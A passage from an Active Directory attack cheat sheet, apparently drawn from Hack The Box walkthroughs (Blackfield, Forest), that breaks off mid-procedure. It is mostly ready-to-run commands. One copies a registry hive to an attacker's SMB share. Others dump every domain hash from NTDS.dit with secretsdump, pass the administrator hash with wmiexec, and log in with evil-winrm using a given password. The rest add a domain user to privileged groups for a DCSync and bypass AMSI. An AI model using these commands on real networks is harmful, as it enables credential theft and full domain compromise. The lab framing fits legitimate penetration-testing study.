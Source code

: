       cp system.hive \\\\<tun0_IP>\\smb\\system.hive

      exit
      ```
  *   Navigate to your SMB drive on your Kali and run [secrets.dump.py](http://secrets.dump.py) against NTDS.dit and System.hive:

      ```
      secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
      ```

      * You will then have an entire dump of hashes obtained from the entire Active Directory.
  *   Utilize [wmiexec.py](http://wmiexec.py) to pass the hash and authenticate as that user:

      ```
      wmiexec.py -hashes :<hash_here> administrator@<IP_HERE>

      C:\\>whoami
      blackfield\\administrator
      ```

      * For example, grab the administrator hash for domain access. Grab the second half of the hash only, not the entire thing.

### Account Operators/WriteDACL —> DCSync Attack

* In the account operators group, an attacker can create users and place them in non-protected groups.
* Placing a new user in a group with WriteDACL, enables an attacker to modify the new user’s DACL.
* In this example, we can give our new user DCSync rights.
* DACL- Discretionary Access Control List
*   This commonly happens due to “scope creep”.

    * HTB Example: _**Forest**_

    Step 1:

    ```
    # Kali

    evil-winrm -i <IP> -u svc-alfresco -p s3rvice

    # Once authenticated (Windows)

    net user jacob Password1234! /add /domain

    net group "Exchange Windows Permissions" jacob /add

    net localgroup "Remote Management Users" jacob /add

    Bypass-4MSI
    [+] Success!
    ```

    Step 2:
